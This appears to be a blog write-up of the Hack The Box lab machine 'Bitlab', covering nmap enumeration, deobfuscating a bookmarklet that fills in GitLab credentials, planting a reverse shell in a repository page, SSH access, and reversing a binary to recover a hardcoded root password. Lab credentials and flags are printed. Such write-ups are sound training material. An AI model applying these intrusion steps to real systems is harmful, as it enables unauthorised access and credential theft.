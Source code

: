```yaml
---
layout: post
title: تحلیل بدافزار
subtitle: "روش های تحلیل و نفوذ و امنیت در مقایل بدافزار ها را از اینجا دنبال کنید"
description: >-
  تست
image: >-
  /assets/img/main.jpg
optimized_image: >-
  /assets/img/main.jpg
category: start
tags:
  - start
author: rezaduty
paginate: true
---
```



# Summary

It was Medium box worth 30 points   
IP : `10.10.10.114`  
Easy user we got it after low enumeration we got it from web interface GitLab running on it and root part was so funny with reverse engineering

# Information Gathering

first lets add `10.10.10.114` to `/etc/hosts` file to bypass any dns records  

> Nmap


As usual we Have to see the open ports So this mission for nmap   

```Bash
root@kali:~# nmap -sVC bitlab.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-10 03:56 EST
Nmap scan report for bitlab.htb (10.10.10.114)
Host is up (0.89s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open  http    nginx
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://bitlab.htb/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.54 seconds
```
I got only `22 and 80` So lets see the web interface
But before we go there is a lot of info in `robots.txt` like `/autocomplete/users /search /api /admin /profile /dashboard /projects/new /groups/new /groups/*/edit /users /help`  
A lot of subs we can visit it so lets see what's inside /help maybe we can get something useful  
Oh there is `HTML` file called `bookmarks.html` So lets see what's inside  
![image](/assets/img/hackthebox/bitlab/help.png)

Hmmm All return to the main website but `GitLab` have javascript so wired

```javascript
javascript:(function(){ var _0x4b18=["\x76\x61\x6C\x75\x65","\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64","\x63\x6C\x61\x76\x65","\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64","\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()
```
It's obfuscation so lets deobfuscation this code using [this site](https://lelinhtinh.github.io/de4js/)
And I got this function
```javascript

javascript: (function () {
    var _0x4b18 = ["value", "user_login", "getElementById", "clave", "user_password", "11des0081x"];
    document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]] = _0x4b18[3];
    document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]] = _0x4b18[5];
})()
```
# PWN USER

What the hack we got username and passwd damn it's so easy  
`clave:11des0081x`

So lets harry up and try to login
After login we got access on `bitlab.htb/api`  
After some Enumeration I got `bitlab.htb/snippets/1`  

```php

<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");
```

So lets try to edit in `root/profile` there is `index.php` file lets add our reverse shell there  

Yup we got **easy to hack easy to build**   

Now lets do php called Whatnow.php and put the php code we got Above and run it `php Whatnow.php`  

Wow we got username and Base64(passwd) So lets decode it and get to try `su -u clave` or ssh with this creds   
There is do decode for it !! so lets use it as we see  

```bash
root@kali:~# ssh clave@bitlab.htb
The authenticity of host 'bitlab.htb (10.10.10.114)' can't be established.
ECDSA key fingerprint is SHA256:hNHxoptKsWqkzdME7Bfb+cGjskcAAGySJazK+gDDCHQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'bitlab.htb,10.10.10.114' (ECDSA) to the list of known hosts.
clave@bitlab.htb's password:
Last login: Thu Aug  8 14:40:09 2019
clave@bitlab:~$ pwd
/home/clave
clave@bitlab:~$ cat user.txt
1e3fd81ec3aa2f1462370ee3c20b8154
```

# PWN ROOT

We have exe file on the clave directory

```Bash
clave@bitlab:~$ ls -la
total 44
drwxr-xr-x 4 clave clave  4096 Aug  8 14:40 .
drwxr-xr-x 3 root  root   4096 Feb 28  2019 ..
lrwxrwxrwx 1 root  root      9 Feb 28  2019 .bash_history -> /dev/null
-rw-r--r-- 1 clave clave  3771 Feb 28  2019 .bashrc
drwx------ 2 clave clave  4096 Aug  8 14:40 .cache
drwx------ 3 clave clave  4096 Aug  8 14:40 .gnupg
-rw-r--r-- 1 clave clave   807 Feb 28  2019 .profile
-r-------- 1 clave clave 13824 Jul 30 19:58 RemoteConnection.exe
-r-------- 1 clave clave    33 Feb 28  2019 user.txt
clave@bitlab:~$
```
let's take this program in our Host   
```bash
root@kali:~# scp clave@bitlab.htb:/home/clave/RemoteConnection.exe /root/Desktop/
clave@bitlab.htb's password:
RemoteConnection.exe                                     100%   14KB   6.0KB/s   00:02    
```
And lets use IDA pro for this mission  
After using IDA pro I got something so wired  
![image](/assets/img/hackthebox/bitlab/putty.png)
It's calling putty.exe WHY !!?   
I think it's will ssh as root on the box !!?   
Let's try to get run it with breakpoint in `jnz       short  loc_401662`  
and we got it it's calling putty to connect with the box as root using ssh `ssh root@gitlab.htb -pw "Qf7]8YSV.wDNF*[7d?j&eD4^"`
So now we can connect as root let's try it  
```
root:Qf7]8YSV.wDNF*[7d?j&eD4^
```
```bash
root@kali:~# ssh root@bitlab.htb
root@bitlab.htb's password:
Last login: Fri Sep 13 14:11:14 2019
root@bitlab:~# pwd
/root
root@bitlab:~# cat root.txt
8d4cc131757957cb68d9a0cddccd587c
root@bitlab:~#
```
